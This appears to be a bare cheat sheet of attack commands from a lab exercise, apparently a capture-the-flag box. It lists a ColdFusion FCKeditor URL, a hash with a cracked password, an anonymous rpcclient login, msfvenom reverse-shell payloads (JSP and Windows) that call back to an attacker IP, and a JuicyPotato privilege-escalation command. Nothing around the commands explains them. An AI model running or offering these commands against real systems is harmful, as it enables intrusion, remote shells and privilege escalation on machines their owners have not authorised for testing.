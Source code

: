 ```
http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/


2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

happyday


rpcclient -U "" 192.168.0.1


 msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.36 LPORT=53 -f raw > shell.jsp


.\JuicyPotato.exe -l 1337 -p C:\Windows\Temp\reverse.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.36 LPORT=53 -f exe -o reverse.exe
```

